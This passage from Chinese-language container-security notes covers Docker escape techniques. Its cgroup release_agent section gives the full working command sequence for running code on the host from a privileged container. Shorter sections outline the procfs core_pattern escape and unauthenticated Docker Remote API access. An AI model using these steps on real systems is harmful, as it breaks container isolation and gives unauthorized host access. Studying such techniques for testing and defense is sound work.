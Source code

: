 - 前提
    - 在容器内 root 用户
    - 容器必须使用 SYS_ADMIN Linux capability 运行
    - 容器必须缺少 AppArmor 配置文件，否则将允许 mount syscall
    - cgroup v1 虚拟文件系统必须以读写方式安装在容器内部

- 概述

    我们需要一个 cgroup，可以在其中写入 notify_on_release 文件(for enable cgroup notifications)，挂载 cgroup 控制器并创建子 cgroup，创建 `/bin/sh` 进程并将其 PID 写入 cgroup.procs 文件，sh 退出后执行 release_agent 文件。

1. 主机使用 SYS_ADMIN Linux capability 运行一个 docker 容器
    ```bash
    docker run -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu /bin/bash
    ```

2. 挂载 cgroup 控制器并创建子 cgroup
    ```bash
    mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
    ```
    > 注:如果这里报错"mount: /tmp/cgrp: special device cgroup does not exist.",将 rdma 改为 memory

3. 创建 `/bin/sh` 进程并将其 PID 写入 cgroup.procs 文件，sh 退出后执行 release_agent 文件。
    ```bash
    echo 1 > /tmp/cgrp/x/notify_on_release
    host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
    echo "$host_path/cmd" > /tmp/cgrp/release_agent

    cat /tmp/cgrp/release_agent

    echo '#!/bin/sh' > /cmd
    echo "ls > $host_path/output" >> /cmd
    chmod a+x /cmd
    sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
    head /output
    ```

**挂载宿主机 Procfs 系统导致容器逃逸**
- 概述

    procfs 是一个伪文件系统，它动态反映着系统内进程及其他组件的状态，其中有许多十分敏感重要的文件。因此，将宿主机的 procfs 挂载到不受控的容器中也是十分危险的，尤其是在该容器内默认启用 root 权限，且没有开启 User Namespace 时. 有些业务为了实现某些特殊需要，会将该文件系统挂载进来

    procfs 中的 `/proc/sys/kernel/core_pattern` 负责配置进程崩溃时内存转储数据的导出方式。从 2.6.19 内核版本开始，Linux 支持在 `/proc/sys/kernel/core_pattern` 中使用新语法。如果该文件中的首个字符是管道符 `|`，那么该行的剩余内容将被当作用户空间程序或脚本解释并执行。可以利用上述机制，在挂载了宿主机 procfs 的容器内实现逃逸。

- 相关文章
    - [挂载宿主机Procfs系统导致容器逃逸](https://github.com/Metarget/metarget/tree/master/writeups_cnv/mount-host-procfs)

**Docker Remote API 未授权访问漏洞**
- 概述

    Docker Remote API 是一个取代远程命令行界面（rcli）的 REST API。存在问题的版本分别为 1.3 和 1.6 因为权限控制等问题导致可以通过 docker client 或者 http 直接请求就可以访问这个 API，通过这个接口，我们可以新建 container，删除已有 container，甚至是获取宿主机的 shell。
